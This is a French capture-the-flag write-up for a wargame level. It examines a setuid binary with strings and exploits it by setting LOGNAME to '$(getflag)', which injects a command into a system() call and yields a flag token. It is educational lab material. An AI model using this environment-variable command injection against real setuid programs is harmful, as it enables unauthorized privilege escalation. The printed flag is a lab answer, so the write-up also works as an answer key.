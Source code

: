 # Level 07

Structure du home
```sh
$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
```
On peut appercevoir un executable. Si on l'execute il nous ecrit seulement `level07`.

En tout premier avant de peut etre le decompilé, on peut lancer `strings` dessus.
```
$ strings ./level07
/lib/ld-linux.so.2
__gmon_start__
...
_IO_stdin_used
asprintf
getenv
system
...
__libc_start_main
...
LOGNAME
/bin/echo %s
...
```
Pleins de chose interresant ce montre à nous, comme les fonctions ou meme les strings utilisé.
Comme les fonctions `getenv`, `system`, `asprintf`. Ce qui voudrait dire que l'executable fait appeler à une variable d'envirionement, execute peut etre `/bin/echo %s` et le pourcentage %s comme une valeur dynamique set via le asprintf ?

Testons des trucs
- en premier lieu, le string LOGNAME est t'il la variable d'env ?
- Et si on modifier cette variable
- Grace à la fonction system, on pourrait executer autre chose que /bin/echo
```sh
$ echo $LOGNAME
level07
$ export LOGNAME=getflag
$ ./level07
getflag
$ export LOGNAME='$(getflag)'
$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```